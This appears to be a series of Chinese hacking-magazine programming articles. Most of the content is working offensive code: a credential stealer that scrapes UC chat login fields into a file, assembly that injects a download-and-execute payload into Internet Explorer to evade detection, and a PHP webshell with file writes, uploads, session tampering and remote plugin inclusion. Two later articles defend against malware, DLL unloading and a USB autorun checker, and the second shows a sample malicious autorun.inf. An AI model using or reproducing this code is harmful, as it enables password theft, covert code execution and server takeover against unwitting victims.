

图1

UCSpy 在 `CUCSpyDlg` 类中添加成员变量 `m_strID` 和 `m_strPWD`（均为 `CString` 型），添加类成员函数 `FindUC(HWND hWnd)` 用以在 UC 窗口中查找账号和密码窗口。添加对 `WM_TIMER` 消息的响应函数，其实现代码如下。

```cpp
void CUCSpyDlg::OnTimer(UINT nIDEvent)
{
    // TODO: Add your message handler code here and/or call default
    HWND hWnd = GetForegroundWindow();
    CString str("");
    CString strShow("");
    GetClassName(hWnd, str.GetBuffer(255), 255);
    if (str.Find("TLoginForm") > -1)
    {
        FindUC(hWnd);
    }
    else
    {
        if ((!m_strID.IsEmpty()) && (!m_strPWD.IsEmpty()))
        {
            strShow.Format("====================\r\nUC号码: %s\r\nUC密码: %s\r\n", m_strID, m_strPWD);
            // 以追加方式写入 C:\ucpwd.txt
            FILE* pfile = fopen("C:\\ucpwd.txt", "a+");
            fwrite(strShow, 1, strlen(strShow), pfile);
            fclose(pfile);
        }
        m_strID = "";
        m_strPWD = "";
    }
    CDialog::OnTimer(nIDEvent);
}
```

类成员函数 `FindUC` 在查找账号和密码框的过程中，还需要考虑一个问题：类名为 `TLoginForm` 的窗口未必一定是 UC 的登录窗口，所以在查找每一级窗口时都要判断，如果未查找到，则立即返回。实现这一功能的函数代码如下：

```cpp
BOOL CUCSpyDlg::FindUC(HWND hWnd)
{
    HWND hTemp = NULL;
    HWND hID = NULL;
    ...
}
```

```cpp
HWND hPWD = NULL;
char strID[100] = "\0", strPWD[100] = "\0";

hTemp = FindWindowEx(hWnd, NULL, "TPanel", NULL);
if (!hTemp) return FALSE;

hTemp = FindWindowEx(hTemp, NULL, "TUCTabControl", NULL);
if (!hTemp) return FALSE;

hTemp = FindWindowEx(hTemp, NULL, "TUCTabSheet", NULL);
if (!hTemp) return FALSE;

hTemp = FindWindowEx(hTemp, NULL, "TImagePanel", "ImagePanel");
if (!hTemp) return FALSE;

hTemp = FindWindowEx(hTemp, NULL, "TUCTabControl", NULL);
if (!hTemp) return FALSE;

hTemp = FindWindowEx(hTemp, NULL, "TUCTabSheet", NULL);
if (!hTemp) return FALSE;

hID = FindWindowEx(hTemp, NULL, "TXPComboBox", NULL);
if (!hID) return FALSE;
::SendMessage(hID, WM_GETTEXT, 100, (LPARAM)strID);

hPWD = FindWindowEx(hTemp, NULL, "TUCFlatEdit", NULL);
if (!hPWD) return FALSE;
::SendMessage(hPWD, WM_GETTEXT, 100, (LPARAM)strPWD);

if (strID[0] != '\0' && strPWD[0] != '\0')
{
    m_strID.Format("%s", strID);
    m_strPWD.Format("%s", strPWD);
    return TRUE;
}
return FALSE;
```

在程序的初始化过程中，我们还要将全局变量置为空，并启动定时器，实现代码如下。

```cpp
BOOL CUCSpyDlg::OnInitDialog()
{
    ...
    // TODO: Add extra initialization here
    m_strID = "";
    m_strPWD = "";
    SetTimer(1, 100, NULL);
    return TRUE;
    // return TRUE unless you set the focus to a control
}
```

##### 小结

细心的读者可能会发现，整个 UC 的登录窗口共有4个类名为 `TUCFlatEdit` 的窗口（因为 UC 有4种登录方式），而我们的窗口位置是第一个。所以，我们可以用 `EnumChildWindows` 来枚举所有子窗口，在回调函数 `lpEnumFunc` 中检查窗口类名，如果是 `TUCFlatEdit`，则获取其文本内容并返回 `FALSE`。具体实践过程，大家可以自己试试。在监视方式上，很多人……

……都是用枚举桌面窗口的方式来判断目标窗口的有无，这样虽然理论上更准确，但我认为，监视活动窗口足矣，难道有人能在非活动窗口中输入字符吗？为了兼顾 VB 编程者的阅读，窗口查找和文本获取部分我没有使用 MFC 实现，而是采用了 Win32 API 来编写。在附带的源码中，同时也带有 VB 版的“UCSpy”。以上程序在 Windows XP+VC6 中调试通过。文中如有不足之处，欢迎大家到黑防论坛或 VC 群 713035 中和我讨论。

- 适合读者：编程爱好者  
- 前置知识：汇编

## NT系统中利用远程线程实现无驻进程无DLL

文／图：南宁 张力／StarsunYzL


在第3期杂志的《木马编程DIY之系统服务》一文中，作者介绍了用远程线程将 DLL 插到其它进程中运行的方法，这种方法虽然不会在系统中产生新的进程，但是会在目标进程中多出一个 DLL 模块，让人看着实在不爽。技术共享的心理促使我一定要介绍一种更好的进程隐藏方法给读者。下面介绍的方法是利用远程线程直接将一段代码插到目标进程中运行，摆脱了讨厌的 DLL，一旦插入、运行成功，目前我还不知道有什么进程工具可以查看到异常，隐蔽性极大！

如果远程线程函数要用到某个 API，那么目标进程必须正确加载了相应的 DLL，并且还要知道 API 的地址才能调用。而远程线程函数是在本地程序中编写的，如果像常规代码那样直接使用 API，最终编译出来得到的 API 地址是本地程序中的地址，不同程序随着 DLL 加载位置的不同，API 的地址也不一定一样，所以在写远程线程函数时不能直接使用 API，而应该手动加载相应的 DLL，然后获取 API 的地址再调用。我们可以用 `LoadLibrary`、`GetProcAddress` 和 `GetModuleHandle` 这3个 API 函数来获取其它 API 的地址，但是这3个 API 函数的地址又从哪里获取呢？还好，这3个 API 函数都位于 `Kernel32.dll` 中……

##### 方法分析

要创建远程线程，则远程线程函数的代码肯定要先写入到目标进程的内存中，而内存又需要先申请，所以整体思路为：用 `OpenProcess` 打开目标进程；用 `VirtualAllocEx` 在目标进程中申请一块足够大的内存；用 `WriteProcessMemory` 将远程线程函数的代码写到申请的内存中；用 `CreateRemoteThread` 创建远程线程。

思路虽然有了，但我们还要注意两个实现的细节问题。第一个是 API 的使用问题。我们知道，API 位于 DLL 中，如果远程线程函数要用到某个 API……

```asm
dwVar dd 0
mov eax, dwVar
```

编译成机器码，其形式类似：

```asm
00401000 00000000 ; dwVar变量
00401004 A100104000 mov eax,dword ptr:[00401000]
```

从 `A100104000` 可以看出，在访问全局变量时用的是绝对地址，`00104000` 就是 `00401000` 按低字节存在低地址、高字节存在高地址的结果。如果把这段代码插到目标进程的 `00801000` 处运行，那么 `dwVar` 变量的地址就是 `00801000`，显然 `A100104000` 指令仍继续访问 `00401000`，得到的肯定不是 `dwVar` 变量的值。这就是重定位问题，怎么解决这个问题呢？再看下面的代码。

```asm
dwVar dd 0
call @F
@@: pop ebx
sub ebx, offset @B
mov eax, [ebx + offset dwVar]
```

将其编译成机器码，会得到类似下面的代码。

```asm
00401000  00000000      ; dwVar变量
00401004  E800000000    ; call 00401009
; 注意这里的00401009并不是绝对地址
00401009  5B            ; pop ebx
0040100A  81EB09104000  ; sub ebx,00401009
00401010  8B8300104000  ; mov eax,dword ptr [ebx+00401000]
```

这段代码不存在重定位问题。我们分析一下。假设现在这段代码被插到目标进程的 `00801000` 处运行，那么 `dwVar` 变量的地址就是 `00801000`，`pop ebx` 指令的地址就是 `00801009`。执行到 `call` 指令时，系统会将 `call` 指令的下一条指令地址 `00801009` 压入堆栈，接着 `pop ebx` 把 `00801009` 弹到 `ebx` 中，再 `sub ebx, 00401009` 后 `ebx` 等于 `00400000`，最后 `mov eax,[ebx + 00401000]` 就等于 `mov eax,[00801000]`，而 `00801000` 刚好就是 `dwVar` 的地址，一切正常！

可以看出，`ebx` 的值就是全局变量在实际运行时的地址和在本地程序中编译得到的地址之差。所以，我们只要在访问全局变量前，先执行下面几条指令来实现自定位，然后再用 `ebx` 去修正使用绝对地址的指令即可。

```asm
call @F
@@: pop ebx
sub ebx, offset @B
```

##### 实战代码

分析到这里，实现程序似乎没什么大问题了，下面看看代码吧！首先是远程线程函数的代码 `RemoteCode.asm`，这段代码将从指定的地址下载一个程序并执行。

```asm
REMOTE_CODE_START equ this byte
lpLoadLibrary      dd ?
lpGetProcAddress   dd ?
lpGetModuleHandle  dd ?
; 这3个变量分别保存LoadLibraryA、GetProcAddress和GetModuleHandleA的地址
szURL                      db 'http://www.wYzL.Net/Test.exe',0
; 下载地址
szSave                     db 'C:\\Test.exe',0
; 保存到
szRun                      db 'C:\\Test.exe -i',0
; 运行
lpURLDownloadToFile        dd ?
; 保存URLDownloadToFileA地址
lpWinExec                  dd ?
; 保存WinExec地址
szKernel32                 db 'Kernel32.dll',0
szUrlmon                   db 'Urlmon.dll',0
szURLDownloadToFile        db 'URLDownloadToFileA',0
szWinExec                  db 'WinExec',0

ThreadFunc proc uses ebx esi edi lParam
call @F
@@: pop ebx
sub ebx, offset @B
lea eax,[ebx + offset szKernel32]
push eax
call dword ptr [ebx + lpGetModuleHandle]
lea ecx,[ebx + offset szWinExec]
push ecx
push eax
call dword ptr [ebx + lpGetProcAddress]
mov [ebx + offset lpWinExec],eax
lea eax,[ebx + offset szUrlmon]
push eax
call dword ptr [ebx + lpGetModuleHandle]
lea ecx,[ebx + offset szURLDownloadToFile]
push ecx
push eax
call dword ptr [ebx + lpGetProcAddress]
mov [ebx + offset lpURLDownloadToFile],eax
lea ecx,[ebx + offset szURL]
lea edx,[ebx + offset szSave]
push NULL
push 0
push edx
push ecx
push NULL
call dword ptr [ebx + lpURLDownloadToFile]
.if eax == S_OK
  lea eax,[ebx + offset szRun]
  push SW_SHOW
  push eax
  call dword ptr [ebx + lpWinExec]
.endif
ret
ThreadFunc endp

REMOTE_CODE_END equ this byte
REMOTE_CODE_LENGTH equ offset REMOTE_CODE_END - offset REMOTE_CODE_START
; 代码大小
```

下面的代码负责将上面的 `RemoteCode.asm` 插到 `iexplore.exe` 中运行。

```asm
.586
.model flat,stdcall
option casemap:none
include windows.inc
include kernel32.inc
include user32.inc
includelib kernel32.lib
includelib user32.lib

.const
szLoadLibrary db "LoadLibraryA",0
szGetProcAddress db "GetProcAddress",0
szGetModuleHandle db "GetModuleHandleA",0
szIE db "iexplore.exe",0
szFmt db "创建远程线程成功！线程ID：%d",0

.data?
AddrLoadLibrary dd ?
AddrGetProcAddress dd ?
AddrGetModuleHandle dd ?
stProcess PROCESSENTRY32 <>
szMsg db 128 dup (?)

.code
include RemoteCode.asm
Start:
invoke GetModuleHandle,offset szKernel32
mov ebx,eax
invoke GetProcAddress,ebx,offset szLoadLibrary
mov AddrLoadLibrary,eax
invoke GetProcAddress,ebx,offset szGetProcAddress
mov AddrGetProcAddress,eax
invoke GetProcAddress,ebx,offset szGetModuleHandle
mov AddrGetModuleHandle,eax
mov stProcess.dwSize,sizeof PROCESSENTRY32
invoke CreateToolhelp32Snapshot,TH32CS_SNAPPROCESS,0
mov ebx,eax
mov esi,0
invoke Process32First,ebx,offset stProcess
.while eax
invoke CharLower,offset stProcess.szExeFile
invoke lstrcmp,offset szIE,offset stProcess.szExeFile
.if !eax
mov esi,1
.break
.endif
invoke Process32Next,ebx,offset stProcess
.endw
invoke CloseHandle,ebx
.if !esi
jmp @F
.endif
invoke OpenProcess,PROCESS_ALL_ACCESS,FALSE,stProcess.th32ProcessID
.if eax
mov ebx,eax
invoke VirtualAllocEx,ebx,NULL,REMOTE_CODE_LENGTH,MEM_COMMIT,PAGE_EXECUTE_READWRITE
.if eax
mov edi,eax
invoke WriteProcessMemory,ebx,edi,offset REMOTE_CODE_START,REMOTE_CODE_LENGTH,NULL
invoke WriteProcessMemory,ebx,edi,offset AddrLoadLibrary,sizeof dword * 3,NULL
add edi,offset ThreadFunc - offset REMOTE_CODE_START
invoke CreateRemoteThread,ebx,NULL,0,edi,NULL,NULL,offset dwThreadID
.if eax
invoke wsprintf,offset szMsg,offset szFmt,dwThreadID
invoke MessageBox,NULL,offset szMsg,offset szMsg,MB_OK
.endif
invoke CloseHandle,eax
.endif
invoke CloseHandle,ebx
.endif
@@:
invoke ExitProcess,0
end Start
```

在 `RemoteCode.asm` 中，远程线程函数 `ThreadFunc` 一开始用到了前面提到的自定位代码，API 都是直接使用地址来调用的，这样就不能使用 `invoke` 了，因为 `invoke` 不知道地址对应哪个 API，也就无法进行参数个数检查，所以只能手工 `push` 参数再 `call` API 地址。

另外，用到的 `URLDownloadToFileA` 函数位于 `Urlmon.dll` 中，IE 默认已经加载了 `Urlmon.dll`，所以可以直接获取 `URLDownloadToFileA` 的地址。如果需要获取的 API 函数地址所在的 DLL 没有加载，则需要先用 `LoadLibrary` 加载相应的 DLL，再用 `GetProcAddress` 获取 API 地址。

主程序中一开始在本地获取了 `LoadLibraryA`、`GetProcAddress` 和 `GetModuleHandleA` 的地址并保存，这里需要注意用 `GetProcAddress` 获取某个 API 的地址时需指明要获取的是 ANSI 版本还是 Unicode 版本。例如获取 ANSI 版本的是 `LoadLibraryA`，而不是 `LoadLibrary`。`Kernel32.dll` 里是没有 `LoadLibrary`，只有 `LoadLibraryA` 和 `LoadLibraryW`……接着程序用 `ToolHelp32` 函数枚举系统进程找到 `iexplore.exe`，然后打开进程……在 `iexplore.exe` 中申请内存，申请的内存要具有 `PAGE_EXECUTE_READWRITE` 属性……把 `LoadLibraryA`、`GetProcAddress` 和 `GetModuleHandleA` 的地址写到申请的内存开头……最后计算线程函数 `ThreadFunc` 的地址，再创建远程线程就 OK 了。

##### 效果欣赏

程序编写好了，我们测试一下，打开 IE，然后运行这个程序就可以看到效果了，如图 1 所示。IceSword 能看到的也只是一些无关紧要的信息……以上这些代码我在 Windows XP SP2 + IE6 + Masm32v9 下编译通过，可以自己实际验证一下。

适合读者：编程爱好者  
前置知识：PHP

## 3KB实现多功能 PHP 小马 SimPony

文/图 朱凌俊

前段时间写了一个 PHP 小马……这里我就把编写的思路和大致过程写出来。Pony 就是小马的意思，它只有 3KB，不过却可以实现大马的全部功能：生成 WebShell、上传文件、设置 Session 值、HTTP 下载、插件加载等。

```php
生成地址：
<input type=text size=60 name=path value=$path>
<textarea name=comment rows=18 cols=60>$comment</textarea>
<input type=submit value=提交>
<input type=reset>
if(!empty($path)){
  $fp=fopen($path,'w');
  if(fwrite($fp,$comment)) echo "写入成功";
  else echo "写入失败";
  fclose($fp);
}
```

##### 生成 WebShell

这个功能比较简单，大家看看代码就会知道如何编写了。

```php
if($action=='create'){ // 判断动作是否为生成 WebShell
  echo "<form method=POST>"; // 生成菜单
}
```

##### 上传文件

这个功能的实现也很简单，详细代码如下所示，关键地方我都已经加了注释。

```php
elseif($action=="upload"){ // 判断动作是否为上传文件
  echo "<form ENCTYPE=\"multipart/form-data\" method=post>";
  <input name=SimpFile type=file>
  <input name=SimpPath type=text value=$SimpPath>
  <input value=提交 type=submit>
}
```

```php
</form>";
if(!empty($SimpFile)){
  $msg = copy($_FILES[SimpFile][tmp_name], $SimpPath)
    ? "上传成功" : "上传失败";
}else $msg = "请选择文件上传";
echo $msg;
```

图2

##### 设置 Session 值

记得以前黑防有一篇文章，是说用改 Session 的值来做后门的，我这里就借用了这个思想。可以设置任意 Session 项的值。有些 Web 系统是依靠判断 `session[admin]` 是否为 1 的方法来判断是否为管理员的，在有了 WebShell 却不知道管理员密码的情况下，就可以直接修改 Session 值，从而登录后台。具体的实现代码如下。

```php
elseif($action=="session"){
  echo "<form method=post>";
  session值:<input type=text name=session_name value=$session_name><br>
  session值:<input type=text name=session_value value=$session_value><br>
  <input type=submit value=提交>
  if(!empty($session_name)){
    session_start();
    $_SESSION[$session_name] = $session_value;
  }
}
```

##### HTTP 下载

这个功能是我看了 PHPSPY 之后写的，PHPSPY 的确写得不错，功能也多。用这个功能可以下载一些小工具到服务器上，方便我们入侵。实现代码如下所示。

```php
elseif($action=="download"){
  echo "<form method=post>";
  下载地址:<input type=text name=dl_url>
  下载到:<input type=text name=dl_path>
  <input type=submit value=下载>
  if(!empty($dl_url)){
    $result = file_get_contents($dl_url);
    $fp = fopen($dl_path,"w");
    if(fwrite($fp,$result)) echo "下载成功";
    else echo "下载失败";
  }
}
```

##### 插件功能

这个功能就厉害了，整个 SimPony 最有价值的就是它了。如图2所示，就是它让这 3KB 的东西可以实现大马的全部功能。原先我在写 HTTP 下载时，用的是 `file_get_contents()` 插件地址，再 `eval()` 执行它，这样的话要求插件里的内容一定要是纯 PHP 的。后来看了一篇利用 `include()` 漏洞的文章后，想到用 `include()` 来实现就方便多了。

说 `include()` 函数出错后，页面会继续执行，而 `require()` 函数出错就会停止执行。所以，这里我采用了 `include()` 函数。这个函数还可以拿来做一句话，而且这个一句话不用客户端。把 `<?include($simpx)?>` 保存为 `simp.php`，然后访问 `simp.php?simpx=http://simpx.free3.77169.net/simpony.txt`，就可以拥有一个 WebShell 了。

```php
elseif($action=="plus"){
  echo "从插件列表里选择插件地址填入表单";
  <a target=blank href="http://simpx.free3.77169.net/plus.html">插件列表</a>
  <form method=post>插件地址:<input type=text name=plus_url value=$plus_url>
  <input type=submit value=提交></form>
  if(!empty($plus_url)){
    if(include($plus_url)) echo "运行插件出错,请检查插件地址";
  }
}
```

##### 插件编写

插件的编写要根据实际情况进行处理，不同的功能，实现方法也不相同。这里就以我写的命令插件 Dir 作为例子来说明。此插件涉及到了表单的提交，如图3所示，这一点大家可以注意一下。实现代码如下。

```html
<form method="post">
  <input type=hidden name=plus_url value=http://simpx.free3.77169.net/plus/cmd.txt>
  <select name="func">
    <option value="system">system</option>
  </select>
</form>
```

图3

好了，到这里，整个 SimPony 就分析完了。其实也没什么新的东西，只是借鉴了前人的大马，再灵活利用了一下 `include()` 函数而已。希望大虾们能不吝赐教，也希望大家一起来编写插件，共同完善我们的 SimPony！

适合读者：编程爱好者  
前置知识：VC

## 卸载远程进程中的DLL

文/图 姜云

病毒、蠕虫肆虐的时代真的很让人头痛，尤其是这些家伙隐藏在别的进程中胡作非为，真让人受不了。它们想跑到其他进程中待着，我们也管不了。那是人家病毒享有最基本的“权利”嘛！如果我们不愿意的话，可以让它马上滚出来。下面我们就自己动手制作一款可以请走它的工具吧，名字就叫做 UnloadDll（当然，我也不介意你给它起更 Cool 的名字）。

我们的 UnloadDll 要用 VC 制造，其本身并不重要，重要的是享受我们制造的过程。接下来我就简单描述一下制造过程，而后再享受我们的成果吧。

DLL 是动态链接库，能提供很多的函数供其他程序调用。它本身并不会创建进程，而是依附在其他进程中为其他进程服务。动态链接库可以让程序自己将它加载到内存中，也可以让程序自己从内存中释放它。程序自己加载 DLL 时候使用 `LoadLibrary()` 函数，卸载时可以使用 `FreeLibrary()` 函数。其函数原型如下。

```cpp
HINSTANCE LoadLibrary(
  LPCTSTR lpLibFileName
);

BOOL FreeLibrary(
  HMODULE hLibModule
);
```

我们的程序要想卸载其他进程中的 DLL，应该使用 `OpenProcess()` 函数打开这个进程，但有时要对系统资源进行访问，调试进程必须拥有一定的权限。调整进程的权限在《黑客防线》上经常会出现，大家可以翻看以前的杂志回顾一下。提升进程权限的步骤有 4 步，每个步骤都会在代码中提到，实现的代码比较少，具体如下。

```cpp
// 提升进程权限
HANDLE hToken;
LUID luid;
TOKEN_PRIVILEGES tp;

OpenProcessToken(...);
LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luid);
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
CloseHandle(hToken);
```

```cpp
// OpenProcessToken 得到要调整进程的访问令牌
OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken);
// LookupPrivilegeValue 查找特定特权的 LUID
LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luid);
...（同上）
```

接下来，就是要查找我们要访问的进程，从而得到它的 PID（进程标识）。要做到这一点就需要遍历所有的进程，从而找到该进程并得到它的 PID，代码也不是很多，而且以前的文章中我也提到过，好像是在 2006 年第 8 期的《黑客防线》中写过，具体代码如下。

```cpp
hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (Process32First(hProcessSnap, &pe32)) {
  do {
    printf("PID=%d, FileName=%s\n", pe32.th32ProcessID, pe32.szExeFile);
  } while (Process32Next(hProcessSnap, &pe32));
}
```

当然，我们要做的是查找而不仅仅是遍历所有进程，因此在 `do...while` 中应该有一个判断代码为 `strcmp(pe32.szExeFile, argv[1])`，这样就可以实现我们想要的了。

再接下来，要通过我们得到的 PID 找到要卸载的 DLL 文件。方法跟上面一样，也是用 `do...while` 遍历并查找，只是使用的 API 函数有所不同，看看代码吧。

```cpp
hModuleSnap = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, pe32.th32ProcessID);
```

```cpp
// 查找相关的 DLL
if (::Module32First(hModuleSnap, &me32)) {
    do {
        if (!strncmp(me32.szExePath, argv[2])) {
            break;
        }
    } while (::Module32Next(hModuleSnap, &me32));
}
```

图1

找到我们要的模块后就到了最后一步了，也就是卸载我们想要卸载的 DLL 文件。方法是使用 `FreeLibrary()` 函数，但是怎么做才能使 `FreeLibrary()` 函数卸载掉其他进程的 DLL 文件呢？可以使用远程线程来调用 `FreeLibrary()` 函数。创建远程线程的函数是 `CreateRemoteThread()` 函数，它有一个关键参数，就是线程函数的地址。

程序会出错而关闭，在 360 安全卫士中也看不到 `uxtheme.dll` 这个 DLL 文件了，如图2所示。

图2

```cpp
DWORD WINAPI ThreadProc(
    LPVOID lpParameter   // thread data
);
```

感觉到什么了？对！那就是它与 `FreeLibrary()` 函数有一个共性，即只需要一个参数。那么，我们只要得到 `FreeLibrary()` 函数的地址，把要卸载的 DLL 文件名当作线程参数来传递就可以了。实现代码如下。

```cpp
HMODULE hModule = ::GetModuleHandle("kernel32.dll");
LPTHREAD_START_ROUTINE pfnStartRoutine =
    (LPTHREAD_START_ROUTINE)::GetProcAddress(hModule, "FreeLibrary");

hRemoteThread = ::CreateRemoteThread(hProcess, NULL, 0,
    pfnStartRoutine, me32.hModule, 0, NULL);
::WaitForSingleObject(hRemoteThread, INFINITE);
```

虽然我们整个程序已经完成了，但还有一个问题，就是执行一次 `unloaddll notepad.exe C:\WINDOWS\system32\uxtheme.dll` 是无法卸载掉目标 DLL 文件的，至少需要运行 2 次，最多要 4 次。这个问题可以在执行完 `CreateRemoteThread()` 后继续遍历所选进程的 DLL，直到找不到为止。

至此，我们要完成的软件就这样被制造出来了。下面演示这款软件的使用：打开记事本进程（`notepad.exe`），再打开 360 安全卫士查看其加载的 DLL，以 `uxtheme.dll` 为例。卸载方法是在 CMD 下使用命令 `unloaddll notepad.exe C:\WINDOWS\system32\uxtheme.dll` 来实现。注意大小写问题，卸载成功后目标进程可能会出错关闭。

通往罗马的大路不只一条。除了上述方法外，还可以自己编写线程函数，定义结构体作为线程参数，把 `FreeLibrary()` 和目标 DLL 作为参数传递给线程函数。这通常需要配合 `VirtualAllocEx()` 和 `WriteProcessMemory()` 等函数，步骤更多也更复杂。该方法同样可能存在与第一种方法类似的问题，欢迎继续探讨改进方案。

适合读者：编程爱好者  
前置知识：VC

## 也谈VC打造U盘防火墙

文/图 单克隆抗体[S.U.S]

编写这个程序是受黑防今年第 1 期《VC打造U盘防火墙》一文的启发。后来第 3 期有两位作者也谈到了 U 盘病毒的问题，所以我感觉有必要把我的经验以及此程序拿出来跟大家交流分享一下。

U 盘病毒是以何种方式，怎样实现传播的呢？我个人认为，U 盘传播病毒主要有两种方式。一是像熊猫烧香一样，中毒的电脑感染 U 盘中可执行文件，未中毒的电脑运行了 U 盘中的程序，导致感染病毒；二是利用以前文章中提到的 `autorun.inf` 文件。当用户双击 U 盘进行操作时，系统自动运行 U 盘中的某病毒程序。就我个人目前碰到的情况，99% 以上的 U 盘病毒都是利用了第二种方式。

经常使用光盘的读者都知道，有很多光盘放入光驱就会自动运行，它是怎么做到的呢？这主要依靠两个文件来实现：一是光盘上的 `AutoRun.inf` 文件，另一个是系统文件 `Cdfs.vxd`。类似道理，当 U 盘中存在特定的 `AutoRun.inf` 文件时，插上 U 盘后也能自动运行程序。

说到这里，也许大家能够想象到了吧？病毒通过构造特定的 `AutoRun.inf` 文件，当你双击 U 盘盘符时，就自动运行 U 盘里的病毒，或者在你点右键选择打开时自动运行病毒。在 Windows 2000 以上系统里，甚至无需双击盘符，系统就有可能自己运行它。

一个“功能”比较完备的 `AutoRun.inf` 文件示例如下。

```ini
[autorun]
open=virus.exe                  ; // 自动运行
shellexecute=virus.exe          ; // 双击盘符时自动运行
shell\open=打开(&O)
shell\open\command=virus.exe    ; // 修改右击“打开”时运行的程序
shell\open\default=1
shell\explore=资源管理器(&X)
shell\explore\command=virus.exe ; // 修改右击“资源管理器”时运行的程序
```

怎么样，假如在 U 盘根目录下存在这个 `AutoRun.inf` 和 `virus.exe`，而 `virus.exe` 是一个病毒的话，你这时就很容易中招了吧？

说到这里，大家可以想想，平时我们碰到这种问题是怎么解决的呢？这里分享一下我平时用到的几个简便方法。假设 U 盘插上后，识别的盘符为 H：

- 方法一：在“我的电脑”的地址栏里输入 `H:`，回车。
- 方法二：点“开始”，在运行里输入 `H:`。
- 方法三：打开“我的电脑”后，点“文件夹”按钮，然后在左边选中 `H:`。

《VC打造U盘防火墙》这篇文章中已经提出了一个时刻监视插入 U 盘中的 `AutoRun.inf` 文件的解决方案。在此基础上，我作了较大的改进：当 U 盘插入或者拔出时，会向所有窗口发送 `WM_DEVICECHANGE` 消息；每当收到此消息时，本程序就重新刷新驱动器列表，并和以前的比较，从而得到新插上的磁盘。

大家注意看“安全打开”这个按钮。在左边选择了盘符后，点“安全打开”，就能打开相应的磁盘。为什么说这是重点呢？应该是亮点。

图1

相关的文章中，都只是把 U 盘根目录里的 `AutoRun.inf` 文件删除了事，以为这样就可以万事大吉。其实，聪明有时候会被即将到来的胜利冲昏头脑，想想看，那个 `AutoRun.inf` 是一插上 U 盘便自动解析并且载入的，即使将其删除了，在拔下 U 盘前，其作用还是存在的。也就是说，你此时双击 U 盘还是会中毒的（不信的话可以自行验证）！

鉴于此，我的这款 U 盘防火墙特别设计了安全打开的功能。除了能手动操作外，当程序检测到有 U 盘插入时，能自动以安全的方式打开。我都自动为你打开了，你还会去双击 U 盘的盘符吗？至于该功能的实现，很容易，一句 `ShellExecute(m_hWnd, "open", "H:", NULL, NULL, SW_SHOWNORMAL);` 就能打开 U 盘了。

```cpp
int CheckAutorun(char DiskName, CString &VirusPath)
{
    char AutorunPath[20] = {"\0"};
    AutorunPath[0] = DiskName;
    strcat(AutorunPath, ":\\autorun.inf");
    CFile autorun_inf;
    if (autorun_inf.Open(AutorunPath, CFile::modeRead) == 0) return -1;
    char lpBuf[4096] = {"\0"};
    autorun_inf.Read(lpBuf, autorun_inf.GetLength());
    autorun_inf.Close();
    CString autorun_read(lpBuf);
    autorun_read.MakeLower();
    if (autorun_read.Find("[autorun]") == -1) return 0;
    ...
}
```

```cpp
...
if (tmpStr == "command") {
    for (...) {
        VirusPath += autorun_read.GetAt(nIndex + i);
    }
    if ((VirusPath.Find(".vbs") != -1 || VirusPath.Find(".bat") != -1)) return 2;
    if ((VirusPath.Find(".exe") != -1 || VirusPath.Find(".pif") != -1 || VirusPath.Find(".scr") != -1 || VirusPath.Find(".com") != -1)) return 1;
}
...
if (tmpStr == "shellexecute") {
    ...
}
return 0; // autorun.inf 文件无法识别
```

这个函数的功能就是先将 `AutoRun.inf` 读到一个 `CString` 变量里，再作一些判断。写得比较简单，大家可以自己发挥，使其识别病毒更智能！

这款程序运行后，当在插上的 U 盘中发现病毒时，会显示类似图2的对话框，并发出报警提示。当点击“查看autorun.inf”按钮时，会用记事本打开 `autorun.inf` 文件，以供杀毒时参考。

图2

至于其他功能的具体实现，大家可以看本文附带的源代码。另外，这款程序还可以设置开机自启动，在开机自启动时能自动最小化到系统托盘上，呵呵，跟一般的防火墙有点像。而且本文中所说的所有关于 U 盘病毒的内容，也完全适用于移动硬盘、MP3、SD 卡等其他可移动介质。嘿嘿，自己动手，丰衣足食，有了这款程序，以后再也不怕同学插带毒的 U 盘了。强力推荐在校学生居家旅行必备！

适合读者：编程爱好者  
前置知识：VC

#### 编程实现手机远程控制电脑

##### 实战图解

随着通信技术的飞速发展，3G 时代的到来给我们的生活方式带来了巨大的影响。智能手机与计算机通信网的完美结合，使得我们能够更加方便快捷地访问计算机资源。就目前的 GSM 时代来说，处于 2.5G 的 GPRS（通用分组无线业务）还未能达到足够的通信速率让我们即时访问远程计算机，不过我们可以利用短信接口以命令行的形式实现对远程计算机的非即时性控制。

短信形式的手机远程控制实现原理是，使用自己的手机向某一服务号码发送控制指令，受控制的计算机能够在互联网上检索到该指令，并且分析运行。由此可以看出，实现控制的关键技术就是短信接口。

